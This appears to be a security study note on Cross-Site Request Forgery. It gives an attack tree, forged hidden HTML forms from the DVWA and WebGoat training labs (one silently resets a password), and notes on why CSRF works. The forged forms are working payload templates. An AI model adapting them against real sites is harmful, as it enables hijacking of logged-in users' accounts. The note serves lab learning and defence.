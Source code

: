 # Cross-Site Request Forgery (CSRF)

## Attack tree

```text
1 Target user is logged in
2 Relevant action (POST request to change password or email, etc) (AND)
    2.1 Find page and vulnerable code
    2.2 Copy code
    2.3 Change parameters
3 Forged code on hacking website (a form with POST method and hidden input field containing the new password)
4 Deliver 
    4.1 Autosubmit
    4.2 Social engineering
```

## Example

### CSRF with GET request

To change password, the original code:

```text
<form action="#" method="GET">    New password:<br>
    <input type="password" autocomplete="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" autocomplete="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
    </form>
```

The forged code (completely hidden):

```text
<form action="http://192.168.122.131/dvwa/vulnerabilities/csrf/" method="GET">
    <input type="hidden" value="666666" autocomplete="off" name="password_new">
    <input type="hidden" value="666666" autocomplete="off" name="password_conf">
    <input type="hidden" value="Change" name="Change">
    </form>
```

### CSRF with POST

Webgoat button to click and get the flag:

```text
<form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" name="form1" target="_blank" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/basic-get-flag">
    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">
```

## Notes

Cross-site scripting (XSS) exploits the trust a user has in a particular site, CSRF exploits the trust a site has in a 
user's browser.

* Requests are not validated server-side
* Server does not check whether request was generated by user
* Requests can be forged and sent to users (to make the server data leakage, change a session state, or manipulate a user's account)

CSRF will be possible if the session relies only on cookies or on HTTP Basic Authentication header, and there are no 
unpredictable parameters on the request.

## Cheatsheets

* [CSRF Attack vectors](cheatsheets:docs/application/csrf)
* [Portswigger: CSRF](https://portswigger.net/web-security/csrf)
